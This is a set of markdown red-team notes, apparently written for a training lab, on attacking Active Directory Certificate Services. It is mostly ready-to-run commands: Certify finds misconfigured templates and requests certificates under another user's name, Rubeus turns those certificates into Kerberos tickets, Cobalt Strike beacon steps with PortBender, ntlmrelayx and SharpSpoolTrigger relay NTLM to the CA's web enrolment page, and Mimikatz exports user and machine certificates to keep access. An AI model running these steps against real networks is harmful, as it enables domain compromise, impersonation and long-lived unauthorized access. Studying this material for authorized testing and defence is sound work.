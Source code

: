 # ADCS Notes

## Finding Certificate Authorities

Tools: [Certify](https://github.com/GhostPack/Certify)

Search ADCS in a domain or forest
```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe cas
```

## Misconfigured Certificate Templates

find vulnerable tickets
```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
```
key parts to look into
1. the CA name
2. Template Name
3. msPKI-Certificate-Name-Flag
4. pkiextendedkeyusage
5. Enrollment Rights - see who can enroll here, look for groups you are in or if all domain users can

Abusing steps
1. Request a certificate for a user
2. copy and whole certificate and save it as cert.pem on linux
3. use openssl command to convert to pfx format
4. convert cert.pfx into a base64 string for Rubeus
5. make an asktgt req for the user using the cert
```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:CustomUser /altname:<user>
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
cat cert.pfx | base64 -w 0
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:<user> /certificate:<base64> /password:pass123 /nowrap
```

## NTLM Relaying to ADCS HTTP Endpoints

can't relay dc to adcs if running on same dc, but we can relay with a system having unconstrained delegation

steps:
1. portbender on unconstrained device capturing 445->8445
2. reverse port forward to forward traffic hitting port 8445 to the team server on port 445
3. a socks proxy for ntlmrelayx to send traffic back into the network
4. ntlmrelayx pointing to the certfnsh.asp page on the adcs server
5. coerce a system WEB to our machine with the relaying

```
on beacon:
powershell New-NetFirewallRule -DisplayName "8445-In" -Direction Inbound -Protocol TCP -Action Allow
rportfwd 8445 localhost 445
socks 1080
cd C:\Windows\system32\drivers
upload C:\Tools\PortBender\WinDivert64.sys
  **Then go to Cobalt Strike > Script Manager and load PortBender.cna from C:\Tools\PortBender - this adds a new PortBender command to the console.**
PortBender redirect 445 8445
on attacker:
sudo proxychains ntlmrelayx.py -t https://10.10.122.10/certsrv/certfnsh.asp -smb2support --adcs --no-http-server
on beacon:
execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe 10.10.122.30 10.10.123.102
```

## User and Computer Persistence

Certs are great persistence since they default last a year regardless of password changes

can grab a users cert by going to their personal cert store, we can do this with Seatbelt
```
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe Certificates
```
or mimikatz
steps:
1. export it and download
2. base64 the pfx file
3. run rubeus with this base64 to obtain a TGT

```
on beacon:
mimikatz crypto::certificates /export
download CURRENT_USER_My_0_Nina Lamb.pfx
on attacker machine:
cat /mnt/c/Users/Attacker/Desktop/CURRENT_USER_My_0_Nina\ Lamb.pfx | base64 -w 0
on beacon:
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIINeg[...]IH0A== /password:mimikatz /nowrap
```
if the user doesn't have a certificate we can just request one
```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:User
```

## Computer Persistence

we can do the same with computer accounts
```
mimikatz !crypto::certificates /systemstore:local_machine /export
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:WKSTN-1$ /enctype:aes256 /certificate:<base64> /password:mimikatz /nowrap
```

if requesting machine accounts with certify use the /machine flag
```
execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:Machine /machine
```


